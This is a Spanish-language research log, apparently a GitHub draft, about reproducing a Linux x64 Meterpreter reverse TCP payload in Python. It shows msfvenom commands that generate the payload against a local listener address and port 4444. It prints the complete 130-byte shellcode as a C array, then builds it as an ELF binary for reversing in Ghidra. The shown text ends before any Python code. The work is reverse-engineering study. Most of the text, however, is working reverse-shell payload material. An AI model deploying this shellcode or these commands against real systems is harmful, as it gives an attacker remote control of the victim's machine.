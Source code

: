 # levantando un meterpreter reverso con un comando

este research quedo plasmado en [esta presentacion](https://docs.google.com/presentation/d/e/2PACX-1vQ-3Uiytk6UqMZ2_Ntedhg47RXRxgpF48u8ECbrQ1Hqay4fC3j7es8xqzW5moZbaztnMEBIDKxoSvV0/pub?start=false&loop=false&delayms=3000), este draft es la vitacora del dia a dia mientras arme todo

## Pasos que hice para recreala

queremos duplicar el comportamiento de la siguiente shellcode en un lenguaje de alto nivel como python

```
➜  ~ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.20.74 LPORT=4444 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 130 bytes
Final size of c file: 571 bytes
unsigned char buf[] =
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x11\x5c\xc0\xa8"
"\x14\x4a\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";
```

pero para analizar eso se pone medio cuesta arriba, lo que vamos a hacer es pasarlo a un binario y levantarlo con ghidra para reversear que hace

```
➜  ~ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.20.74 LPORT=4444 -f elf > reverse.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes

```

y abrimos ese binario con ghidra, verificando que el entry point ya tiene los mismos bytes que tenia la shellcode en la version de c
